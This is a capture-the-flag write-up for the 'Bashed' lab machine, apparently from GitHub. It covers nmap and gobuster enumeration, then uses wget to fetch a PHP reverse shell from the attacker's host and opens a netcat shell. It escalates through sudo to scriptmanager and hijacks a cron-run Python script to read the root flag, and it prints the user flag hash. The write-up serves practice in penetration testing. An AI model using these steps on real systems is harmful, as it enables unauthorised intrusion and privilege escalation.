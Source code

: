 # BASHED

## ENUMERATION

Running the nmap scan we find only one port open

```
nmap 10.10.10.68 -p 80 -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-03 04:59 EDT
Nmap scan report for 10.10.10.68
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Finding the http port open I ran gobuster to find directories 

```
===============================================================
2021/08/03 05:04:51 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]                                
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]    
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]   
/server-status        (Status: 403) [Size: 299]                                 
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
```

Opening the /dev directory that we found through gobuster we find a interactive web shell 

## SHELL

Running the ```ls -la``` command in the ```/var/www/html``` directory we find that the ```uploads``` directory is the only one in which our user i.e. ```www-data``` has write permission. So that's where we can upload php reverse shell.

Downloading php reverse shell from <http://pentestmonkey.net/tools/web-shells/php-reverse-shell> on my machine and changing the ip to our system tunnel ip and the port to 4444

Running the command ```python -m SimpleHTTPServer``` to start a http server on our machine in the same directory as the php reverse shell we need to upload

![](https://github.com/Leo-2807/Writeups/blob/main/images/bshed2.png)

Now we run the command ```wget http://10.10.14.36:8000/php-reverse-shell.php``` to download the reverse shell on the machine

![](https://github.com/Leo-2807/Writeups/blob/main/images/bashed1.png)

Starting nc listerner ```nv -lvnp 4444``` on our system and then opening the url ```http.//10.10.10.68/uploads/php-reverse-shell.php```

![](https://github.com/Leo-2807/Writeups/blob/main/images/bashed3.png)	

We get a shell which we stabilize with the command ```python -c 'import pty; pty.spawn("/bin/bash")'```

## WWW-DATA --> USER

Using the command ```sudo -l``` 

This means that we have permissions to become user scriptmanager without password

```
www-data@bashed:/$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/$ whoami
whoami
scriptmanager
scriptmanager@bashed:/$ cd /home
cd /home
scriptmanager@bashed:/home$ ls 
ls 
arrexel  scriptmanager
scriptmanager@bashed:/home$ cd arrexel
cd arrexel
scriptmanager@bashed:/home/arrexel$ ls
ls
user.txt
scriptmanager@bashed:/home/arrexel$ cat user.txt
cat user.txt
2c281f318555dbc1b856957c7147bfc1
```
And we have our user flag

## USER --> ROOT

Using command ```ls -la``` in the / diectory we find only one directory writabble to out user ```scripts```
```
scriptmanager@bashed:/$ ls -la
ls -la
total 88
drwxr-xr-x  23 root          root           4096 Dec  4  2017 .
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ..
drwxr-xr-x   2 root          root           4096 Dec  4  2017 bin
drwxr-xr-x   3 root          root           4096 Dec  4  2017 boot
drwxr-xr-x  19 root          root           4240 Aug  3 01:57 dev
drwxr-xr-x  89 root          root           4096 Dec  4  2017 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Dec  4  2017 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Feb 15  2017 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 115 root          root              0 Aug  3 01:57 proc
drwx------   3 root          root           4096 Dec  4  2017 root
drwxr-xr-x  18 root          root            500 Aug  3 01:58 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Aug  3 02:57 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Aug  3 02:16 sys
drwxrwxrwt  10 root          root           4096 Aug  3 03:03 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Dec  4  2017 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```
In the scripts directory we find two files 
```
scriptmanager@bashed:/$ cd /scripts
cd /scripts
scriptmanager@bashed:/scripts$ ls
ls
test.py  test.txt
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!
```

using ```ls -la ``` command we see that the time of last execution of test.py is the current time which lead me to try it again after a few minutes and the time was again same as the current time 
This means that the script is being executed by crontab running in the background 

We use this to read root.txt
```
scriptmanager@bashed:/scripts$ echo 'import os' > test.py
echo 'import os' > test.py
scriptmanager@bashed:/scripts$ echo 'os.system("cat /root/root.txt > /tmp/readme.txt")' >> test.py
<ts$ echo 'os.system("cat /root/root.txt > /tmp/readme.txt")' >> test.py     
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
import os
os.system("cat /root/root.txt > /tmp/readme.txt")
scriptmanager@bashed:/scripts$ cd /tmp
cd /tmp
scriptmanager@bashed:/tmp$ ls
ls
VMwareDnD
readme.txt
systemd-private-fb9d9649303741a0b3e5ee96e5c01d4d-systemd-timesyncd.service-8VKUb9
vmware-root
scriptmanager@bashed:/tmp$ cat readme.txt
```
And we have out root flag
